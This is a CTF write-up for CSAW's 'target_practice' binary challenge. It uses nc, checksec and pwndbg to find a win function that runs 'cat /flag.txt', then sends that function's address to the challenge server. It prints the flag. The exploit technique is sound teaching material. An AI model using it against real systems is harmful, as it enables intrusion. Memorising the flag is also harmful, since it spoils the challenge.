 # target\_practice

> Aim carefully... This pwnie can JUMP!&#x20;
>
> Author: `ElykDeer`&#x20;
>
> Connect with:&#x20;
>
> `nc intro.csaw.io 31138`&#x20;
>
> [target\_practice](https://ctf.csaw.io/files/c6114a63507eed08fa2523cebd848f26/target\_practice?token=eyJ1c2VyX2lkIjoxMzYwLCJ0ZWFtX2lkIjo1NjksImZpbGVfaWQiOjI2fQ.ZQSKuQ.klqJwPq9exGMJ0txJS0YZBqRsoA)

* We can connect to the program using the following command:

```
$ nc intro.csaw.io 31138
Aim carefully....
```

* So it asks us to aim carefully? Is it going to perform some sort of jump?
* Let's look at the file type.

```
$ file target_practice
target_practice: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c2ae3c4733d9761d5043faa90d68371e52d74bc2, not stripped
```

* We can see that it is a binary executable.
* Using the `checksec` utility, we can also see the security properties of the file.

```
$ checksec target_practice 
[*] '/home/hacker/csaw23/targetPractice/target_practice'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

* There's two important properties we want to focus on here:
  * `NX enabled`: This means that the stack is not executable. Therefore we cannot use a shellcode injection.
  * `No PIE (0x400000)`: This means that the executable is not positionally independent and it is always loaded at address `0x400000`. So the code and memory regions will have the same address every time we run it.
* Let's look at the functions present in the binary.

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x00000000004005a8  _init
0x00000000004005d0  __stack_chk_fail@plt
0x00000000004005e0  system@plt
0x00000000004005f0  printf@plt
0x0000000000400600  fflush@plt
0x0000000000400610  setvbuf@plt
0x0000000000400620  __isoc99_scanf@plt
0x0000000000400630  _start
0x0000000000400660  _dl_relocate_static_pie
0x0000000000400670  deregister_tm_clones
0x00000000004006a0  register_tm_clones
0x00000000004006e0  __do_global_dtors_aux
0x0000000000400710  frame_dummy
0x0000000000400717  cat_flag
0x000000000040072a  main
0x00000000004007f0  __libc_csu_init
0x0000000000400860  __libc_csu_fini
0x0000000000400864  _fini
```

* The `cat_flag` function seems interesting, let's disassemble it and see.

```
pwndbg> disassemble cat_flag
Dump of assembler code for function cat_flag:
   0x0000000000400717 <+0>:     push   rbp
   0x0000000000400718 <+1>:     mov    rbp,rsp
   0x000000000040071b <+4>:     lea    rdi,[rip+0x152]        # 0x400874
   0x0000000000400722 <+11>:    call   0x4005e0 <system@plt>
   0x0000000000400727 <+16>:    nop
   0x0000000000400728 <+17>:    pop    rbp
   0x0000000000400729 <+18>:    ret
End of assembler dump.
```

* The `cat_Flag` function is located at the address `0x0000000000400717`.
* If we look at the instruction at `cat_flag+11`, we can see a system call. The instruction at `cat_flag+4` loads the argument for that same system call.

```
pwndbg> x/s 0x400874
0x400874:       "cat /flag.txt"
```

* On examining the argument, we can see that it is in executing `cat` with the `flag.txt` file. Now we know that the `ret2win` function needs to be called in order to get the flag.
* So the `cat_flag` function does actually give us the flag. Let's connect again and provide the address `0x0000000000400717` as the input.

```
$ nc intro.csaw.io 31138
Aim carefully.... 0x0000000000400717
csawctf{y0ure_a_m4s7er4im3r}
```

### Flag

```
csawctf{y0ure_a_m4s7er4im3r}
```

